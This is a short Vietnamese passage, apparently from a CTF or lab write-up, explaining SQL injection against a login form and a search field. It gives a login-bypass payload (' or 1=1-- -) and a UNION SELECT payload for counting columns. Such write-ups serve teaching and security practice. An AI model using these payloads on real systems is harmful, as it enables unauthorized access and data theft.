 Vế 
```sql
'1'='1' AND password = 'password';
```

sẽ trả về false. Nhưng ở đây tài khoản `admin` không tồn tại nên FALSE OR FALSE = FALSE.

Do đó ta phải loại bỏ truy vấn password bằng comment `-- ` để làm cho ít nhất một vế đúng.

Do đó, payload ngắn nhất có thể là:

```sql
' or 1=1-- -
```

![](images/19.png)

Đặt một `'` vào thanh search, có lỗi xảy ra, chứng tỏ có SQL Injection

![](images/20.png)

Chúng ta sẽ dùng `union` querry để tìm kiếm thông tin.

Check được số cột là 5:

```sql
' UNION select 1,2,3,4,5-- -
```

![](images/21.png)
